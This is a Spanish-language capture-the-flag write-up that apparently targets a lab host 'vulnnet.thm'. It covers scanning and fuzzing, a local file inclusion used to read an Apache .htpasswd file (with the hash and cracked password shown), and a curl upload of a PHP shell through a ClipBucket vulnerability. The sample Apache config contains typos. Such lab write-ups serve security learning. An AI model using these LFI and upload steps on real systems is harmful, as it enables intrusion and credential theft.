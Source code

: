 
# SCAN+
```
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
# WEB ENUM

## DIRECTORIES

Utilizando gobuster para buscar directorios encontramos los directorios comunes:
```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vulnnet.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/12 11:54:42 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/css/]
/js                   (Status: 301) [Size: 307] [--> http://vulnnet.thm/js/] 
/img                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/img/]
/fonts                (Status: 301) [Size: 310] [--> http://vulnnet.thm/fonts/]
                                                                               
===============================================================
2022/08/12 11:56:03 Finished
===============================================================

```
## SUBDOMAINS

```
gobuster vhost -u vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://vulnnet.thm
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/12 11:50:33 Starting gobuster in VHOST enumeration mode
===============================================================
Found: gc._msdcs.vulnnet.thm (Status: 400) [Size: 424]
Found: broadcast.vulnnet.thm (Status: 401) [Size: 468]
Found: _domainkey.vulnnet.thm (Status: 400) [Size: 424]
                                                       
===============================================================
2022/08/12 11:50:59 Finished
===============================================================

```
Buscando subdominios (virtual hosts) tambien mediante gobuster encontramos el subdominio 

## PARAMETROS URL

Podemos utilizar wfuzz para buscar parametros para un posible ataque LFI
```
wfuzz -u vulnnet.thm/index.php?FUZZ=/etc/passwd  -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -c --hw 462
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://vulnnet.thm/index.php?FUZZ=/etc/passwd
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000003464:   200        174 L    514 W      7660 Ch     "referer"                                                                                   

Total time: 25.48573
Processed Requests: 4712
Filtered Requests: 4711
Requests/sec.: 184.8877
```
eliminando los paquetes de tamaño 462 W eliminamos los falsos positivos. Luego hemos encontrado una puerta de entrada para un posible
ataque del tipo LFI
> vulnnet.thm/index.php?referer=

# LFI EXPLOIT
Explotando la vulnerabilidad anterior podemos ver en 
> vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd, el siguiente hash:
> developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
explicacion: Apache se puede confirgurar para que un sitio, un subdominio o un directorio tengan acceso restringido solo a algunos usuarios. Para esto hay que configurarlos. La configuración se realiza en varios pasos:
1. Se crea un archivo que por convención se llama .htpasswd (aunque en realidad se puede llamar de cualquier manera) donde se guardan las credenciales en forma:
- username: password
El username va en texto plano y el password en una variante de MD5 llamada crypt propia de apache. Cada credencial esta en una linea. Este fichero se
puede crear "a mano" con un editor de texto, pero es mejor hacerlo con una aplicacion especifica (htpasswd) y es mejor guardarlo en un lugar que no sea accesible desde la web. 
2. Una vez que se ha creado el fichero .htpasswd, debe configurarse el sitio correspondiente que se encuentra en /etc/apache2/sites-available/fichero de la siguiente manera:
```
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html/broadcast
  ServerName broadcast.vulnnet.thm
  <Directory "/var/www/html/broadcast">
        AuthType Basic  # Typo de autenticacion. En este caso Basic
        AuthName "broadcast area"
        AuthUserFile /etc/apache2/.htpasswd  # path al fichero donde estan las acreditaciones
        Requiere valid-user
  </Directory>
</Virtualhost>
```
4. apache guarda en el fichero .htpasswd unas credenciales con el esquema anterior (username en plain-text y password en un hash que es una variante de MD5. Si un sitio web esta configurado para para utilizar /.htpasswd cuando alguien intenta acceder al sitio le sale un formulario para acreditarse

##JtR
> developers:9972761drmfsls

# CVE
Entramos en una pagina donde hay una aplicacion llamada **ClipBucket** que es una aplicacion que nos permite subir fotos y videos tipo youtube
Vemos que para la version 4.0 hay una vulnerabilidad que nos permite RCE, file upload e incluso sqlinjection:
![image](https://user-images.githubusercontent.com/70599089/184412628-ba9e86d3-3021-401a-8dcb-38c032fa0861.png)

Optamos por un file upload utilizando un payload tipo pentestmonkey en curl
> curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://broadcast.vulnnet.thm/actions/beats_uploader.php" http://broadcast.vulnnet.thm -u developers:9972761drmfsls

